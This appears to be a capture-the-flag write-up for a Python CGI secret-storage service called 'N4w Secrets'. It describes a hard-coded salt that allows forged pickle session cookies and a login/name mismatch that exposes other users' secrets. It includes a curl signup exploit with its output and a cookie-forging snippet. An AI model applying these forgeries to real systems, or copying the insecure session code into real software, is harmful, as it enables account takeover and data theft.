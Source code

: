 # N4w Secrets

## Description

> Password-protected secret storage service for the web.

This service is created by the team *Noobs4Win*. It's a Python CGI website used
to store secrets for every registered users.

It's a very simple website where you can sign up (and obviously sign in later)
to then save a secret. A page allows to retrieve all saved secrets to a 
logged in user.

The different pages are accessible from `index.cgi` using the request parameter
`action`. It can be among these 5 values `default`, `signin`, `signup`,
`addsecret`, `logout`. They are pretty self-explaining, but if none is given,
`default` is chosen.

It uses a sqlite database to store the list of users, and their associated
secrets. One possible issue to notice is the way users are stored:
```python
self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
```
Their password is not digested or ciphered, what means it may be retrieved and
used to log in as the flag user.

### Flag

Flag Description:

> Flags are identified by the user name.


When you register, you must provide a login, a password and your name. The
later is thus the *flag_id*. However, the *set_flag* script use the same string
for both the login and the name.


## Vulnerabilities

As the service is relying on a sqlite database, maybe a SQL injection present.
But actually, all queries are prepared:
```python
self.__cursor.execute('SELECT * FROM users WHERE login=(?)', (login,))
self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
self.__cursor.execute('SELECT * FROM secrets WHERE name=(?)', (self.__storage['name'],))
self.__cursor.execute('INSERT INTO secrets (name, login, content) VALUES (?, ?, ?)', (self.__storage['name'], self.__storage['login'], content))
```

Thus, next step is to read the source code to try to locate vulnerabilities.
Two of them directly pop up.

### Weak crypto

This first one is located in the `Session` class in `cgiapp.py`. The class
relies on the *Pickle* module of Python to store the user's session information
inside the `session` cookie. *Pickle* is a well-known Python module use to
serialize but which brings big security issues if its input can be controlled
by the user (actually, it's possible for an attacker to execute any python
code).

```python
session = pickle.dumps(self.__sessionStorage)
checksum = sha.new(session + self.__salt).hexdigest()
session = session.encode('hex')
cookie = checksum + session
return 'Set-Cookie: session=%s;' % cookie
```

Hopefully, the session information is prepended with a salted digested
checksum. Similarly, when retrieving the session, this checksum is firstly
verified before *Pickle* loads it.

```python
session = Cookie(environ.get('HTTP_COOKIE')).get('session').value
if not session:
        raise
if len(session) < 40:
        raise
if len(session) % 2 != 0:
        raise
for c in session:
        if c not in '0123456789abcdef':
                raise
checksum, session = session[:40], session[40:].decode('hex')
if sha.new(session + salt).hexdigest() != checksum:
        raise
self.__sessionStorage = pickle.loads(session)
```

We can barely craft a fake session cookie without this salt. Let's track where
this salt come from.

```python
class Session():
	def __init__(self, salt):
		self.__salt = salt
```

```python
class Application():
	def __init__(self):
		cgitb.enable(context=100)
		self.actions = {}
		self.storage = Storage()
		self.session = Session(salt='f72f460da5376c477543ae78533892b5')
```

So the salt is hard-coded, and well known: `f72f460da5376c477543ae78533892b5`.

### Login and name mismatch

The other issue which pops up immediatly is located in the SQL queries. To
register a user, the script `user.py` first check if a user with the same
`login` is registered. If not, the user is added to the database.

```python
self.__cursor.execute('SELECT * FROM users WHERE login=(?)', (login,))
user = self.__cursor.fetchone()
# Sign up
if login and password and name:
        if user:
                raise UserAlreadyExistsException()
        self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
        self.__connection.commit()
        self.__storage = {
                'name': name,
                'login': login
        }
```

However, to retrieve the secrets, it fetches all secrets from the database
where the `name` match the user's one.

```python
self.__cursor.execute('SELECT * FROM secrets WHERE name=(?)', (self.__storage['name'],))
secrets = []
for secret in self.__cursor.fetchall():
        secrets.append(secret[2])
return secrets
```


## Proof of Concept

We know two simple vulnerabilities which can be exploited.

### Manual PoC

We'll use only the later vulnerability for this part as it's very easy to
exploit it. The *flag_id* we want to retrieve is `fbc634d0b48428b0588a`.

We only need to create a new user whose name would be the *flag_id*. Let's
use the *login* and *password* `toto` with the *name* `fbc634d0b48428b0588a`.

```bash
$ curl -X POST -d 'action=signup&login=toto&password=toto&name=fbc634d0b48428b0588a' http://192.168.56.101:20120/

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title>Secret storage | Profile</title>
		<link rel="stylesheet" href="http://yui.yahooapis.com/pure/0.6.0/pure-min.css">
	</head>
	<body style="width: 500px; margin: auto; padding-top: 10px;">
<form class="pure-form pure-form-stacked" method="post">
	<span style="font-size: 20px; display: inline-block;" class="pure-input-2-3">Hello, fbc634d0b48428b0588a!</span>
	<input type="hidden" name="action" value="logout">
    <button style="display: inline" type="submit" class="pure-button pure-button-danger pure-input-1-3">Logout</button>
</form>
<div style="font-size: 20px; margin-top: 20px; padding-top: 20px; border-top: 1px solid #eee;">
    You can add some secrets:
</div>

<form class="pure-form pure-form-stacked" method="post">
    <fieldset>
        <textarea placeholder="Secret content" class="pure-input-1" name="content"></textarea>
        <input type="hidden" name="action" value="addsecret">
        <button type="submit" class="pure-button pure-button-primary pure-input-1-3">Add</button>
    </fieldset>
</form>
<div style="font-size: 20px; margin-top: 20px; border-bottom: 1px solid #eee;"></div>
<div style="font-size: 20px; margin-top: 20px;">
    Your secrets:
</div>
<p class="content">FLGeH0dcR2MBfdEE</p>
	</body>
</html>
```

The response includes one very interesting thing at the end:
```html
<p class="content">FLGeH0dcR2MBfdEE</p>
```

As a picture worth thousand words, here is the response in a browser:

![Page with a flag][flag_page]


### Automated PoC

The script [poc_name.py][poc_name] use the same principle as previously to get
the flag, so it won't be explained again.

The script [poc_pickle.py][poc_pic], use the first vulnerability on weak
crypto. We first craft a fake cookie, using the hard-coded salt, to impersonate
the user of the *flag*. 

```python
session = pickle.dumps({'login': flag_id, 'name': flag_id})
checksum = sha.new(session + _SALT_).hexdigest()
session = session.encode('hex')
cookie = checksum + session
```

Then we only need to ask for the default page to retrieve the flag.

```bash
$ ./poc_name.py 192.168.56.101 20120 84bbed828259cbe9d273
FLG0kJFsFPI8Uxml
```

```bash
$ ./poc_pickle.py 192.168.56.101 20120 84bbed828259cbe9d273
FLG0kJFsFPI8Uxml
```


[poc_name]: poc_name.py
[poc_pic]: poc_pickle.py
[flag_page]: assets/flag_page.png
